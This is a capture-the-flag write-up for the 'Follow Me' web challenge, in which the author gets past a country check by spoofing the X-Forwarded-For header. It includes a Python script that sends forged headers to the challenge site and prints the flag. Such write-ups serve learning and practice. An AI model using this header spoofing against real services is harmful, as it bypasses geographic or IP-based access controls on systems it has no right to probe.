 # WEB 150 - Follow Me

This challenge is a worldmap where you have to follow a hacker in random country.

![](img/worldmap_SHA.PNG)

To change the origin country of the request, i use the mozilla firefox add-on "AnonymoX" and saw that the message "you are in the wrong country (fr)" changed by "you are in wrong country (us)". 
So i tried to send a request by adding the header "X-Forwarded-For" and the ip address of a free proxy in the pays where the hacker is.
And thats worked !

So i wrote a python script that take 3 commands in input :
  - country : print the country where the hacker is and the number of country to before finding him
  - mv <*@ip_proxy*> : Add the "X-Forwarded-For" header with the IP specified.
  - restart : Some country don't have free proxy available
  
````python

import requests

def parse_pays(page):
	page = page.split("\n")
	to_print = ""
	for l in page:
		if '<div class="row"><div class="box" style=' in l:	
			to_print = l.split("<span>")[1]
			to_print = to_print.split('</span>')[0]
			print("You have to visit : %s " % (to_print))

def parse_visited(page):
	page = page.split("\n")
	for l in page:
		if 'Visited' in l:
			print(l)
			return l

def parse_flag(page):
	page = page.split("\n")
	for l in page:
		if 'flag' in l:
			print(l)

def parse_iswrong(page):
	page = page.split('\n')
	for l in page:
		if 'You are in the wrong country' in l:
			to_print = l.split('<p class="message">')[1]
			print(to_print)
def parse_newcountry(page):
	page = page.split("\n")
	for l in page:
		if 'You just missed the hacker, he moved to' in l:
			to_print = l.split('<p class="message">')[1]
			print(to_print)

cmd = ""
s = requests.Session()
url = "https://followme.stillhackinganyway.nl/"
r = s.get(url)
while cmd != "q":
	cmd = raw_input("$SHA: ")
	if cmd == "country":
		r = s.get(url)
		parse_pays(r.text)
		nb = parse_visited(r.text)
		parse_iswrong(r.text)	
	if "mv" in cmd:
		ip = cmd.split(" ")[1]	
		header = { 'X-Forwarded-For': '%s' % (ip)}
		r = s.get(url, headers=header)
		parse_newcountry(r.text)
		nb = parse_visited(r.text)
		if "12/12" in nb:
			parse_flag(r.text)
	if cmd == "restart":
		r = s.get("https://followme.stillhackinganyway.nl?restart=1")
		r = s.get(url)
		parse_pays(r.text)
		nb = parse_visited(r.text)
		parse_iswrong(r.text)
	
```

Then i was able to send request to the site from any country in the world where a free proxy is available.
Below the screenshot of the script running : 

![](img/write_up_SHA2.PNG)

